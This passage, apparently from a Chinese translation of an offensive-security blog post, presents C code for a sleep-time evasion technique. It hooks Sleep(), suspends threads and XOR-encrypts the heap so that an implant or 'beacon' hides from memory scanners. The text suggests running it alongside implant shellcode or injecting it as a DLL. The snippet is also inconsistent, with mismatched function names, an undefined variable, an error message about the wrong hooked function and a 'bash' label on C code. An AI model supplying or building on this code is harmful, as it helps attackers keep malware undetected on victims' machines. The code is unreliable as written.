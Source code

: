 我将假设你已经实现了自己的加密、挂钩和全线程暂停函数。这些代码大致是这样的：

```bash
static PROCESS_HEAP_ENTRY entry;
VOID HeapEncryptDecrypt() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(currentHeap, &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            XORFunction(key, keySize, (char*)(entry.lpData), entry.cbData);
        }
    }
}
static void(WINAPI* OrigianlSleepFunction)(DWORD dwMiliseconds);
void WINAPI HookedSleepFunction(DWORD dwMiliseconds) {
    DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
    HeapEncryptDecrypt();
    OriginalSleepFunction(dwMiliseconds);
    HeapEncryptDecrypt();
    DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
}

void main()
{
    DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
    Hook("kernel32.dll", "Sleep", (LPVOID)HookedSleepFunction, (FARPROC*)&OriginalSleepFunction, true);
    if (!OldAlloc) {
        MessageBoxA(NULL, "Hooking RtlAllocateHeap failed.", "Status", NULL);
    }
    DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
    // Sleep is now hooked
}
```

上面的代码很简单，但是显然不包括 implant 代码。您可以通过执行 shellcode 在相同的进程空间中运行 implant 代码，也可以将其转换为 DLL 并将其注入到 beacon 中。由于它使用了 HeapWalk() 函数，所以，它可以加密过去、现在和将来分配的空间，而不会出现任何问题——只需要钩住 Sleep() 函数就可以开始调用。

演示时间到了！下面是具体的演示代码：

[![1.gif](assets/1706496869-8ed5e5b2411bc88b4c75a5d051607431.gif)](https://storage.tttang.com/media/attachment/2021/12/29/3d36bd82-d9dd-412c-9de9-bb42a5078df9.gif)
